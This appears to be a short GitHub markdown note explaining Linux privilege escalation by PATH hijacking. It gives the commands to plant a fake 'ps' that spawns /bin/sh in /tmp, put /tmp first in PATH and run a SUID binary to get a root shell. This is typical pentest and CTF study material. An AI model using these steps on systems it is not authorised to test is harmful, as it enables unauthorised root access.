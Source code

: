 ### Linux Privilege Escalation Using PATH Variable

#### View the PATH
```
echo $PATH
```

####case study one
- Binary file with SUID permission
  - check what the file do
  - for example *which linux commad use*
    - in out case we use *ps* command
- Create malicious file
  - echo "/bin/bash" or "/bin/sh" > /tmp/ps
  - chmod 777 /tmp/ps
  - **or**
  - cp /bin/sh /tmp/ps
- check PATH
  - echo $PATH
- change $PATH (add tmp folder)
  - export PATH=/tmp:$PATH
- run SUID binary

